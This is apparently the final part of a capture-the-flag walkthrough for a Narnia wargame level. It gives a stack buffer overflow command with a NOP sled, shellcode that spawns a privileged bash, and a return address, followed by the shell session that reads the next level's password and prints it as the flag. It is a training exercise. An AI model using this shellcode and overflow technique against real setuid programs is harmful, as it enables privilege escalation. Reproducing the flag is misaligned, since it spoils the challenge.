132 -33 = 99 NOP needed
./narnia2 $(printf '\x90%.0s' {1..99}; printf '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'; printf '\x54\xd5\xff\xff') ⌨️
bash-5.2$ whoami ⌨️
narnia3
bash-5.2$ cat /etc/narnia_pass/narnia3 ⌨️
2xszzNl6uG 🔐
```

## Flag
<b>2xszzNl6uG</b>

## Continue
[Continue](./Narnia0203.md)